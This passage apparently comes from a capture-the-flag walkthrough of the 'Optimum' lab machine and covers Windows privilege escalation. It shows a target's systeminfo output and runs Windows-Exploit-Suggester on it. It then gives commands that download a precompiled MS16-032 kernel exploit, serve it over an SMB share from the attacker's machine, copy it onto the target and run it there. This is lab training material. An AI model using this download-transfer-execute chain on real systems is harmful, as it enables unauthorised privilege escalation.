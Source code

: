 ```
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

Save the above into `systeminfo.txt` on Kali and run the following:

```bash
# save systeminfo output from target into systeminfo.txt
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
python2.7 Windows-Exploit-Suggester/windows-exploit-suggester.py --update
python2.7 Windows-Exploit-Suggester/windows-exploit-suggester.py -i systeminfo.txt -d 2020-12-04-mssb.xls --local
```

![user4](./optimum/user4.png)

There are a few good ones here to cross reference with the following list of compiled exploits:

- https://github.com/SecWiki/windows-kernel-exploits

MS16-032 is relatively easy to test (have used it before and it is reliable). Target is x64 so download and transfer over the exploit binary:

```bash
# run on Kali
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS16-032/x64/ms16-032.exe
sudo impacket-smbserver BUBBA .
# run on target
robocopy.exe \\10.10.14.25\BUBBA %TEMP% ms16-032.exe /copy:DT /w:1 /r:1 /v 
%TEMP%\ms16-032.exe
```
